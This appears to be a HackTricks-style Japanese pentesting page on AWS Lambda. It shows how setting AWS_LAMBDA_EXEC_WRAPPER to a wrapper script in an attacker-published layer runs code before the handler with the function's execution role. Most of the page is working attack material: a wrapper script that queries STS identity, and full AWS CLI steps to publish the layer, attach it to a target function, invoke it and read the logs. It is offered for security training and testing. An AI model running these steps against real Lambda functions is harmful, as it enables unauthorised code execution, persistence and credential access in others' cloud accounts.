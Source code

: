 # AWS - Lambda Exec Wrapper Layer Hijack (Pre-Handler RCE)

{{#include ../../../../banners/hacktricks-training.md}}

## 概要

環境変数 `AWS_LAMBDA_EXEC_WRAPPER` を悪用して、runtime/handler が開始する前に攻撃者が制御するラッパースクリプトを実行します。ラッパーは Lambda Layer の `/opt/bin/htwrap` に配置し、`AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap` に設定してから関数を呼び出します。ラッパーは関数の runtime プロセス内で実行され、関数の実行ロールを継承し、最後に実際の runtime を `exec` して元のハンドラーが通常通り実行されるようにします。

> [!WARNING]
> この手法は、対象の Lambda におけるコード実行を可能にします。ソースコードやロールを変更せず、`iam:PassRole` を必要としません。必要なのは関数の設定を更新し、レイヤーを公開／アタッチする権限だけです。

## 必要な権限（攻撃者）

- `lambda:UpdateFunctionConfiguration`
- `lambda:GetFunctionConfiguration`
- `lambda:InvokeFunction`（または既存のイベント経由でトリガー）
- `lambda:ListFunctions`, `lambda:ListLayers`
- `lambda:PublishLayerVersion`（同一アカウント）および、クロスアカウント／公開レイヤーを使用する場合はオプションで `lambda:AddLayerVersionPermission`

## ラッパースクリプト

レイヤー内の `/opt/bin/htwrap` にラッパーを配置します。ハンドラー実行前の処理を実行でき、実際の runtime にチェインするために最後は `exec "$@"` で終わる必要があります。
```bash
#!/bin/bash
set -euo pipefail
# Pre-handler actions (runs in runtime process context)
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json, os
try:
ident = boto3.client('sts').get_caller_identity()
print('[ht] sts identity:', json.dumps(ident))
except Exception as e:
print('[ht] sts error:', e)
PY
# Chain to the real runtime
exec "$@"
```
## 攻撃手順 (CLI)

<details>
<summary>レイヤーをpublishして、ターゲット関数にattachし、wrapperを設定してinvokeする</summary>
```bash
# Vars
REGION=us-east-1
TARGET_FN=<target-lambda-name>

# 1) Package wrapper at /opt/bin/htwrap
mkdir -p layer/bin
cat > layer/bin/htwrap <<'WRAP'
#!/bin/bash
set -euo pipefail
echo "[ht] exec-wrapper pre-exec: uid=$(id -u) gid=$(id -g) fn=$AWS_LAMBDA_FUNCTION_NAME region=$AWS_REGION"
python3 - <<'PY'
import boto3, json
print('[ht] sts identity:', __import__('json').dumps(__import__('boto3').client('sts').get_caller_identity()))
PY
exec "$@"
WRAP
chmod +x layer/bin/htwrap
(zip -qr htwrap-layer.zip layer)

# 2) Publish the layer
LAYER_ARN=$(aws lambda publish-layer-version \
--layer-name ht-exec-wrapper \
--zip-file fileb://htwrap-layer.zip \
--compatible-runtimes python3.11 python3.10 python3.9 nodejs20.x nodejs18.x java21 java17 dotnet8 \
--query LayerVersionArn --output text --region "$REGION")

echo "$LAYER_ARN"

# 3) Attach the layer and set AWS_LAMBDA_EXEC_WRAPPER
aws lambda update-function-configuration \
--function-name "$TARGET_FN" \
--layers "$LAYER_ARN" \
--environment "Variables={AWS_LAMBDA_EXEC_WRAPPER=/opt/bin/htwrap}" \
--region "$REGION"

# Wait for update to finish
until [ "$(aws lambda get-function-configuration --function-name "$TARGET_FN" --query LastUpdateStatus --output text --region "$REGION")" = "Successful" ]; do sleep 2; done

# 4) Invoke and verify via CloudWatch Logs
aws lambda invoke --function-name "$TARGET_FN" /tmp/out.json --region "$REGION" >/dev/null
aws logs filter-log-events --log-group-name "/aws/lambda/$TARGET_FN" --limit 50 --region "$REGION" --query 'events[].message' --output text
```
</details>

## 影響

- 関数の既存の実行ロールを使用して、Lambda ランタイムコンテキスト内でハンドラ実行前にコードが実行される。
- 関数コードやロールの変更は不要。Python、Node.js、Java、.NET といった一般的なマネージドランタイムで動作する。
- ハンドラ実行前に永続化、資格情報アクセス（例: STS）、データの持ち出し、ランタイムの改ざんを可能にする。

{{#include ../../../../banners/hacktricks-training.md}}
